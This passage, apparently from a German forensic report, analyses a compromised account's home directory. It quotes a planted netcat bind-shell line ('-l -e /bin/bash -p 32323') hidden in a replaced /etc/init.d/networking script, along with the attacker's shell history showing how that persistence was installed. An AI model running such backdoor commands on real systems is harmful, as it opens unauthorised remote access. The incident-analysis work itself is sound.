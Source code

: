Ein \texttt{ls -lah /home/evil/} zeigt folgende Ausgabe:
\begin{verbatim}
drwxr-xr-x 2 1001 root 4,0K Jan 28  2010 . 
drwxr-xr-x 5 root root 4,0K Jan 28  2010 .. 
-rw------- 1 1001 root  229 Jan 28  2010 .bash_history 
-rw-r--r-- 1 1001 root  220 Mai 12  2008 .bash_logout 
-rw-r--r-- 1 1001 root 3,1K Mai 12  2008 .bashrc 
-rwxr-xr-x 1 1001 root 1,3K Jan 28  2010 bdstart.sh 
-rwxr-xr-x 1 1001 root 1,9K Jan 28  2010 networking 
-rw-r--r-- 1 1001 root  675 Mai 12  2008 .profile
\end{verbatim}

Als erstes wurde die \texttt{networking} Datei näher betrachtet. Hierbei handelt es sich um ein Script welches wahrscheinlich das Original unter \texttt{/etc/init.d/} ersetzen soll. Sollte dies der Fall sein und das Skript wird mit dem Parameter \texttt{start} aufgerufen, wird folgende Zeile ausgeführt:
\begin{verbatim}
/usr/local/bin/mysudo "/var/www/upload/netcat -nvv -l -e /bin/bash -p 32323"
\end{verbatim}
Diese Zeile führt das Program \texttt{mysudo} aus und öffnet eine \texttt{netcat} Listening Verbindung auf dem Port 32323 welche mit dem Schalter \texttt{-e} nach der Verbindung eine \texttt{bash} Shell öffnet.
\pagebreak Über die \texttt{.bash\_history} kann man die Befehle welche der Benutzer absetzte einsehen:
\begin{verbatim}
ls 
ls -l 
mysudo whoami 
cd /etc/init.d/ 
ls 
touch bdstart.sh 
cd 
cp /etc/init.d/hostname.sh bdstart.sh 
vim bdstart.sh 
cp /etc/init.d/networking . 
vim networking 
mysudo "cp ./networking /etc/init.d/" 
ls -l /etc/init.d/ 
ls -l /etc/
\end{verbatim}
Der Umstand, dass diese ebenfalls von Angreifern modifizierbar ist muss berücksichtigt werden. Manipulationen an dieser Datei sind ist anhand der MAC-Timestamps nicht nachvollziehbar. %